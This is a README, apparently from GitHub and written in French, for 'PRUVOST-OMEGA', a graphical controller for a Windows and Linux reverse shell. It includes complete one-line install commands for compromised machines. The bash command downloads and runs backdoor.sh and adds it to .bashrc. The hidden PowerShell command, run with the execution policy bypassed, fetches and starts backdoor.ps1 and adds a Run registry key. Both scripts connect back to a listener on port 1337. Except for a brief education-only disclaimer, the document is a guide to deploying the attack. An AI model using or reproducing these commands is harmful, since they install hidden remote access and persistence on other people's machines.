 # PRUVOST-OMEGA Reverse Shell - NOT WORKING

**PRUVOST-OMEGA** est une interface de contrôle d’un reverse shell multiplateforme (Windows/Linux) avec interface graphique en **C++ / ImGui**. Elle permet de recevoir et interagir avec des machines compromises via une console distante (type terminal), le tout dans une interface fluide et interactive.

---

## 📦 Fonctionnalités

* 🔤 Interface ImGui / OpenGL moderne pour Windows.
* 🧠 Liste des machines connectées (IP, pseudo).
* 💻 Console distante interactive (type shell/cmd/PowerShell).
* 🔀 Exécution de commandes classiques à distance :

  * `start notepad.exe`
  * `shutdown /r /t 0`
  * `exit` (ferme la session shell)
* 🔒 Persistance sur les machines compromises (via bashrc ou registre Windows).
* 📡 Communication TCP sur le port `1337`.

---

## 🧪 Captures principales

* Interface avec liste des machines connectées
* Console à distance pour chaque machine sélectionnée
* Boutons pour actions rapides (reboot, notepad, fermeture)

---

## ⚙️ Structure du projet

```
PRUVOST-OMEGA-Reverse-Shell/
├── backdoor.sh              # Reverse shell Linux
├── backdoor.ps1             # Reverse shell Windows (avec persistance)
├── PRUVOST-OMEGA_CLIENTAPP/
│   ├── Menu.cpp             # Interface ImGui + gestion TCP
│   ├── Menu.h
│   └── ...                  # Fichiers CMake, ImGui, GLFW, etc.
```

---

## 🚀 Installation & Exécution

### 🎯 Cible Linux
# Il est conseillé de placer les scripts dans un serveur Web, Pour modifier la partie ```https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.sh``` et ```https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.ps1``` qui pointe vers l'ip '192.168.1.18' qui est donc une IP locale. Il faudra donc changer l'ip dans les 2 scripts, et utiliser votre propre script. 

**Installation manuelle :**

```bash
bash -c 'curl -s https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.sh -o ~/.backdoor.sh && chmod +x ~/.backdoor.sh && grep -q ".backdoor.sh" ~/.bashrc || echo "bash ~/.backdoor.sh &" >> ~/.bashrc && bash ~/.backdoor.sh &' &
```

**Ce script :**

* Télécharge `backdoor.sh` depuis GitHub.
* Rend le script exécutable.
* L'ajoute à `.bashrc` pour une exécution automatique.
* L’exécute en arrière-plan.

### 🎯 Cible Windows

**Installation automatique :**

```powershell
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.ps1 -OutFile $env:APPDATA\backdoor.ps1; Start-Process -WindowStyle Hidden powershell -ArgumentList '-ExecutionPolicy Bypass -WindowStyle Hidden -File $env:APPDATA\backdoor.ps1'"
```

**Ce script :**

* Télécharge `backdoor.ps1` dans `%APPDATA%`.
* L’exécute immédiatement.
* Ajoute une clé au registre `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` pour relancer automatiquement au démarrage.

> ⚡ **N'oubliez pas de modifier l'adresse IP dans les scripts `backdoor.sh` et `backdoor.ps1` en fonction de l'adresse du serveur ImGui.**

---

## 🛠️ Compilation de l'application graphique (C++)

### Prérequis

* Visual Studio avec support du C++17
* GLFW
* ImGui
* OpenGL ≥ 3.0
* Ws2\_32.lib (WinSock)

### Compilation

* Ouvrir `PRUVOST-OMEGA.sln` avec Visual Studio
* Compiler en **Release x64**

---

## 📡 Communication

* Le client (`backdoor.ps1` / `backdoor.sh`) tente de se connecter à `192.168.1.18:1337` ( A changer )
* Le serveur ImGui écoute sur `INADDR_ANY:1337` et accepte plusieurs connexions, identifiées par IP

> ⚠️ **Changez l'adresse IP hardcodée dans les scripts clients avant d'utiliser l'application.**

---

## ⚠️ Avertissement légal

Ce projet est à but **éducatif uniquement**. Son utilisation sur des machines que vous ne possédez pas ou sans consentement explicite est **illégale** et **pénalement répréhensible**. L’auteur ne pourra être tenu responsable d’un usage abusif.

---

## 📖 Auteur

Projet par `s-i-m-o-n-git`
Interface par **ImGui + OpenGL**
